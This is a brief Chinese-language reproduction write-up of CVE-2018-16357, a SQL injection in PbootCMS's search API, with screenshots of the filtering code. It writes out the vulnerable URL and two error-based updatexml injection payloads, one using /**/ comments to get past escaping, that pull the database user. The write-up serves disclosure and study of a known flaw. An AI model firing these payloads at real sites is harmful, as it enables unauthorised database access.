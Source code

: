 # （CVE-2018-16357）PbootCMS sql注入漏洞

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。 PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。



## 复现过程

http://xxx/api.php/Cms/search?#acode=1&num=1&order=1

参数$field是我们可以控制的，去检查函数过滤器

![image](https://www.hacking8.com/books/bug-web/PbootCMS/200/media/rId24.png)

使用函数trim和escape字符串避免sql注入

![image](https://www.hacking8.com/books/bug-web/PbootCMS/200/media/rId25.png)

field=123a'updatexml(1,concat(0x7e,(SELECTuser()),0x7e),1)#&keyword=title&scode=1

添加a'会导致mysql语法错误，因此函数escape\u字符串无效

使用/**/绕过

field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1

![image-20211027195417888](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211027195417888.png)